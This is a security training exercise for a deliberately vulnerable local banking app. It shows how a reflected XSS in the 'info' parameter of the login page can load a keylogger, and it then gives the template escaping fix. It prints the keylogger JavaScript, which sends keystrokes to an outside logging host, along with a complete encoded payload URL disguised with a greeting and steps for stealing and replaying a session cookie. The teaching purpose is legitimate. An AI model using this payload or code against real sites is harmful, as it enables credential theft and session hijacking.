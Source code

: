 # Exercise 2 - Stealing Credentials with XSS

This exercise is to help you understand how an XSS vulnerability on a login page can be used to install a key-logger and steal your credentials.

## Setup and Start Applications

1. Start the application in debug mode
   * start the Maven configuration for the launch configuration "v-bank run and build" in DEBUG mode (with the green BUG icon next to the arrow;
   you should have created it as described in IntelliJSetup.md)
1. Open v-bank application and DO NOT log in 
   1. Open http://localhost:8080/ in the browser

## Check for XSS vulnerability. 
Hints:
   * All pages including the login page contain a reflect XSS vulnerability
   * The name of the vulnerable request parameter is __info__
   * Try : http://localhost:8080/login?info=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E  <br/>
   Please note that that the above is the URL encoded version of:
``` http://localhost:8080/login?info=<script>alert('XSS')</script>```

## Carft URL deploying keylogger

So we need to craft a URL with a script tag installing a keylogger into he HTML page instead of the _&lt;script&gt;alert('XSS')&lt;/script&gt;_  

There is a benign keylogger implementation in http://sprg-tools.el.eee.intern/js/stealcreds.js; the name of the function is _installKeylogger_

```javascript
function installKeylogger(cat) {
    category = cat ? cat : 'me';
    document.onkeypress = function (e) {
        var timestamp = Date.now() | 0;
        var stroke = {
            k: e.key,
            t: timestamp
        };
        buffer.push(stroke);
    }
    window.console.log('keylogger installed.');
    window.setInterval(function () {
        if (buffer.length > 0) {
            sendToLogService(buffer);
            buffer = [];
        }
    }, 200);
}

function sendToLogService(jsondata) {
    var data = encodeURIComponent(JSON.stringify(jsondata));
    var url = urlroot + '/log/' + category + '/' + data;
    new Image().src = url;
    window.console.log('data sent, url : ' + url);
} 
```
As you may see it makes log statements, so that you can verify in Chrom DevTool's JavaScript Console if it was installed and keystrokes were sent.
This is only for your understanding, in a real key-logger there are no such DEV features :)

The HTML snippet to load the script and install the key-logger is:   
```<script src='http://sprg-tools.el.eee.intern/js/stealcreds.js'></script><script>installKeylogger()</script>```   

You should pass it to the login page with the _info_ request parameter:
Link: http://localhost:8080/login?info=Welcome%20back!%3Cscript%20src=%27http://sprg-tools.el.eee.intern/js/stealcreds.js%27%3E%3C/script%3E%3Cscript%3EinstallKeylogger()%3C/script%3E  
Which is the URL encoded form of: ```http://localhost:8080/login?info=Welcome back!<script src='http://sprg-tools.el.eee.intern/js/stealcreds.js'></script><script>installKeylogger()</script>```  
  
>Please note the "Welcome back!" message. This is to avoid displaying an empty message box, which might be suspicious.

## Fall Victim to the keylogger
Please open the above page with the XSS payload installing the script and TYPE something into the username and login fields. 

## Check logged keystrokes
The key-logger sends keystrokes to a simple web service at http://sprg-tools.el.eee.intern/log/me
If you open the same URL with the browser it should display keystrokes sent from your IP address.

## Fix 

The vulnerability is in the _page.tag_ template file, which a decorator user by all pages of the application.  
It is because between lines 45 and 54 the variables _error_ and _info_ are written into the generated HTML without HTML/XML escaping.  
```xml
    <c:if test="${not empty error}">
        <div class="container">
          <div class="row alert alert-danger" role="alert">${error}</div>
        </div>
    </c:if>
    <c:if test="${not empty info}">
        <div class="container">
            <div class="row alert alert-info" role="alert">${info}</div>
        </div>
    </c:if>
```
To fix this you need to wrap the `${error}` and `${info}` expressions into a special tag that enables escaping. They will be is `<c:out value='${error}' escapeXml='true' />` and `<c:out value='${info}' escapeXml='true' />`, respectively.
```xml
    <c:if test="${not empty error}">
        <div class="container">
          <div class="row alert alert-danger" role="alert"><c:out value='${error}' escapeXml='true' /></div>
        </div>
    </c:if>
    <c:if test="${not empty info}">
        <div class="container">
            <div class="row alert alert-info" role="alert"><c:out value='${info}' escapeXml='true' /></div>
        </div>
    </c:if>
```
### Verify fix
Please stop and start the application again and open the malicious link with the XSS payload again :  
http://localhost:8080/login?info=Welcome%20back!%3Cscript%20src=%27http://sprg-tools.el.eee.intern/js/stealcreds.js%27%3E%3C/script%3E%3Cscript%3EinstallKeylogger()%3C/script%3E
Now no popup should be displayed. And you should see html code in the browser
![](images_exercises/Script_Tag_Escaped.png)

## You may also steal the session cookie with an XSS 
**Firtst off, please revert the changes made to the _page.tag_ template file!**
Please replace the `installKeylogger()` function with `stealCookie()` in the URL!  
The next steps should be obvious ;)
>You may reuse the stole session id in a new browser session (you can open one in private browsing more in Chrome).  
>Then open DevTools (or Inspector) go to Console and set the cookie with the command `document.cookie='JSESSIONID=...'`  
>where ... is the value you have stolen from the target session.